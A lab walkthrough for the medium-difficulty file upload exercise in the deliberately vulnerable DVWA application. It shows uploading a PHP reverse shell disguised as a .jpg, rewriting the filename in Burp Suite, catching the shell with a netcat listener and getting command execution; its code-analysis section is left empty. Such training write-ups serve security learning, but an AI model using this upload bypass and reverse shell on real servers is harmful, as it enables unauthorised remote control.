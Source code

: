 # File Upload - Medium

---

## Attack Steps

1. Open Burp Suite and start a temporary project

2. Navigate to the proxy tab
    - `CTRL + SHIFT + P`

3. Ensure the intercept is off and open the chromium browser

4. Navigate to DVWA and set difficulty to medium 

    - http://<ip address>/dvwa
    - Login
    ```bash 
    admin
    password
    ```
    - Navigate to DVWA Security on the left menu 
    - Set security level to medium

5. Navigate to the target webpage 
    - http://<ip address>/dvwa/vulnerabilites/upload

6. Make a copy of `php_reverse_shell.php` and save as a jpg file:

    - `CTRL + ATL + T` to open a terminal 

    ```bash 
    sudo cp /usr/share/webshells/php/php_reverse_shell.php php_reverse_shell.jpg
    ```

7. On the target page:
    
    - Browse for `php_reverse_shell.jpg`
    - Select file 
    - DO NOT UPLOAD 

8. Turn intercept on 

    - On Burp Suite turn the intercept on to catch request

9. Upload file 

10. Edit request: 
    
    - In Burp Proxy, scroll down to filename and change to php_reverse_shell.php
    ```bash 
    filename="php_reverse_shell.php"
    ```

11. Forward the request and turn intercept off

12. On the kali terminal start a listener 

    ```bash 
    nc -lvnp 1234 # If you changed the port number in the webshell file then change it here 
    # l - listener mode
    # v - verbose output 
    # n - skip DNS resolution (faster) 
    # p <port number> - Listen on port number assigned # Change to your port number
    ```

13. Navigate to the uploaded webshell 

    - The uploaded file was saved to http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php

    - Alternatively run `curl -s http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php` in another terminal 

14. On the netcat listener look a connection
    
    - The should be output similar to the following 
    ```bash 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    sh: no job control in this shell 
    sh-3.2$ 
    ```

    - We can now run commands on the DVWA machine

## Vulnerable Code Analysis


### File 
`/var/www/dvwa/vulnerabilities/upload/source/medium`

#### Key Vulnerability Points:

```php 

```

### Explanation

